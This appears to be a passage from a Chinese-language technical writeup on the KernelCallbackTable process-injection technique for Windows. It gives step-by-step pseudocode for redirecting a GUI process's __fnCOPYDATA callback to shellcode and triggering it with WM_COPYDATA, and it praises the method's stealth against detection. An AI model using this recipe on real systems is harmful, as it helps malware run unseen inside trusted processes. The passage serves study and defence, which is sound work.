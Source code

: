 ```
步骤1：查询 PEB
NtQueryInformationProcess(ProcessBasicInformation)
→ PROCESS_BASIC_INFORMATION.PebBaseAddress

步骤2：读取 KernelCallbackTable 地址
ReadProcessMemory(PEB + 0x58, &kernelCallbackTableAddr, ...)

步骤3：读取整个 Table
ReadProcessMemory(kernelCallbackTableAddr, &originalTable, sizeof(TABLE), ...)

步骤4：修改 Table
modifiedTable = originalTable
modifiedTable.__fnCOPYDATA = shellcode_address

步骤5：克隆修改后的 Table
remoteTable = VirtualAllocEx(...)
WriteProcessMemory(remoteTable, &modifiedTable, ...)

步骤6：更新 PEB 指针
WriteProcessMemory(PEB + 0x58, &remoteTable, ...)

步骤7：触发回调
SendMessage(hWindow, WM_COPYDATA, ...)
→ Windows 调用 KernelCallbackTable.__fnCOPYDATA
→ 执行我们的 shellcode！
```

### 5. 仅限 GUI 进程

**重要限制**：
- KernelCallbackTable 只在加载了 `user32.dll` 的进程中初始化
- 控制台程序（如 cmd.exe）没有这个表
- 必须使用 GUI 进程（如 notepad.exe, calc.exe, explorer.exe）

**验证**：
```c
// 控制台进程
PEB->KernelCallbackTable = NULL  ❌

// GUI 进程
PEB->KernelCallbackTable = 0x00007FFB3E2B9710  ✅
```

---

## 技术特点

### 优势

1. **高隐蔽性**
   - 不使用 CreateRemoteThread
   - 不修改代码段（只修改数据段）
   - 利用合法的系统机制
